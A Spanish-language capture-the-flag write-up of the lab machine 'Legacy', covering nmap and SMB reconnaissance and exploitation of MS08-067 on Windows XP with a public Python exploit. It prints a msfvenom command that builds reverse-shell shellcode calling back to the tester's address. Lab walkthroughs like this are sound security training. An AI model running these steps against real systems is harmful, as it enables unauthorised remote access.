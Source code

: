 ```yaml
---
title: Legacy
published: true
categories: [Windows, Easy] 
tags: [Windows explotation, MS08-067]
author: Kripteria
image:
  path: https://user-images.githubusercontent.com/55555187/182439413-1283bf8a-321b-49c1-90a3-43ce6f8f3e09.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


Legacy es una <font color="#98E256">máquina Easy</font> de temática <font color="#2874A6">Windows</font> en la que se toca la vulnerabilidad MS08-067 sobre RPC.

## Reconocimiento y explotación

```bash
nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.10.4
```

![2022-07-30-12-02-31-image](https://user-images.githubusercontent.com/55555187/182439389-a6e5097b-2b3a-4ef9-a835-d83fa674e054.png)

```bash
nmap -sVC -p135,139,445 10.10.10.4 -oN portSV
```

![2022-07-30-12-04-05-image](https://user-images.githubusercontent.com/55555187/182439378-f3aece5b-a153-4c20-89b0-47fb0f87956e.png)

Reviso el servicio Samba pero no tiene ningún recurso compartido.

```bash
smbmap -H 10.10.10.4 -R
```

Viendo la información reportada por *nmap* me llama la atención el OS (*Windows XP*) y el puerto *RPC* abierto por lo que decido buscar exploits relacionados con ese OS y puerto.

Tras un rato de investigación descubro que en Windpows XP se puede lograr RCE explotando la vulnerabilidad **MS08_067** en RPC que explota un *buffer overflow*.

Buscando en Github encuentro un script en Python que se puede utilizar para explotar la vulnerabilidad [MS08-067.py](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py). Lo único que hay que hacer es modificar el shellcode del script por uno propio.

Genero un shellcode utilizando *msfvenom* que me entable una revershe shell y la sustituyo en el script

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Ejecuto el script y logro una shell:

![2022-07-30-12-37-36-image](https://user-images.githubusercontent.com/55555187/182439397-b0732336-8f6e-4a26-8c0d-e0b2023dd014.png)

![2022-07-30-12-38-10-image](https://user-images.githubusercontent.com/55555187/182439392-76759255-4a06-4cb3-bc6a-3a84782f7a97.png)

**Nota:** Si falla el intento de explotación se puede dar un bloqueo en Svchost.exe lo que haría que el servicio Samba fallase impidiendo (impidiendo explotar la vulnerabilidad, entre otras cosas) por lo que hay que tener cuidado a la hora de ejecutar el exploit.

Intento ver con que usuario tengo la shell: 

1. Comprobando la variable de entorno *USERNAME* mediante *echo %USERNAME%* pero no obtengo nada por que no está seteada

2. Intentando usar *whoami* pero en Windows XP no existe

3. Usando el comando *net* para ver que usuarios existen en el sistema por si solo hubiese uno (poco probable)

4. Mirando si puedo lanzar una *powershell* para probar con el comando *[System.Security.Principal.WindowsIdentity]::GetCurrent().Name* pero no está powershell en el sistema

A pesar de que no he podido obtener información del usuario, puedo acceder al escritorio de Administrator por lo que es sensato asumir que estoy como dicho usuario.

## Escalada de privilegios

En este caso no es necesario ya que tenemos una shell como **Administrator**
